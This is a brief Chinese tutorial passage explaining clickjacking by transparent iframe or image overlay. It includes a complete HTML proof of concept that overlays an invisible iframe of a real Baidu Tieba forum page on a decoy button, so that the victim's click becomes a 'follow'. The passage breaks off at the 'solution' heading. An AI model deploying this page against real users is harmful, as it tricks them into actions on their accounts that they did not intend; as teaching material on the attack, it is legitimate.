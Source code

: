 ### 点击劫持

大概有两种方式：

- 一是攻击者使用一个透明的iframe，覆盖在一个网页上，然后诱使用户在该页面上进行操作，此时用户将在不知情的情况下点击透明的iframe页面；


- 二是攻击者使用一张图片覆盖在网页，遮挡网页原有位置的含义；

#### iframe覆盖

~~~html
<!DOCTYPE HTML>
<html>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312" />
<head>
<title>点击劫持</title>
<style>
     html,body,iframe{
         display: block;
          height: 100%;
          width: 100%;
          margin: 0;
          padding: 0;
          border:none;
     }
     iframe{
          opacity:0;
          filter:alpha(opacity=0);
          position:absolute;
          z-index:2;
     }
     button{
          position:absolute;
          top: 315px;
          left: 462px;
          z-index: 1;
          width: 72px;
          height: 26px;
     }
</style>
</head>
     <body>
          那些不能说的秘密
          <button>查看详情</button>
          <iframe src="http://tieba.baidu.com/f?kw=%C3%C0%C5%AE"></iframe>
     </body>
</html>
~~~

网址传播出去后，用户手贱点击了查看详情后，其实就会点到关注按钮

##### 解决办法
